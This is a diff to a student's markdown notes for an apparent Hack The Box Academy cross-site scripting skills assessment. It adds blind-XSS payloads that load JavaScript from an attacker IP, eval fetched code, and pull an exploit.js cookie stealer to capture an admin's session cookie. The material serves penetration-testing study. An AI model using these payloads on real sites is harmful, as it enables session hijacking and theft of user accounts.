

CPTS
CPTS

diff --git a/module/Cross-site-scripting-xss.md b/module/Cross-site-scripting-xss.md
@@ -184,6 +184,48 @@ Victim IP: 10.129.34.48 | Cookie: cookie=c00k1355h0u1d8353cu23d
 
 # XSS Skills Assessment  
 
+>[Cross Site Scripting XSS Skills Assessment](https://academy.hackthebox.com/module/103/section/1011)  
+
+>Posting a comment to the assessment blog, there is message, `Your comment is awaiting moderation.`.
+
 ![xss assessment await-moderation](/images/xss-assessmennt-await-moderation.png)  
 
->[PayloadALlTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc)  
+>Reference: [PayloadALlTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc)  
+
+## Blind XSS Detection  
+
+>A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.  
+
+>Testing payloads to identify Blind XSS - loading a remote script:  
+
+```
+<script src=http://10.10.15.41></script>
+'><script src=http://10.10.15.41></script>
+"><script src=http://10.10.15.41></script>
+javascript:eval('var a=document.createElement(\'script\');a.src=\'http://10.10.15.41\';document.body.appendChild(a)')
+<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//10.10.15.41");a.send();</script>
+<script>$.getScript("http://10.10.15.41")</script>
+```  
+
+![xss-blind-injection-identified](/images/xss-blind-injection-identified.png)  
+
+>Successful payload identified as, `'><script src=http://10.10.15.41></script>`  
+
+## Session Hijacking  
+
+>Loading a Remote Exploit JavaScript Script payload. [Session Hijacking](https://academy.hackthebox.com/module/103/section/1008)  
+
+```
+'><script src=http://10.10.15.41/exploit.js></script>
+```  
+
+>Submitting the blind XSS injection to steal cookie of the admin moderator.  
+
+![xss-blind-post-comment](/images/xss-blind-post-comment.png)  
+
+>Cookie Stealer obtained the value of the 'flag' cookie.  
+
+![xss-assessmennt-admin-cookie-stolen](/images/xss-assessmennt-admin-cookie-stolen.png)  
+
+
+
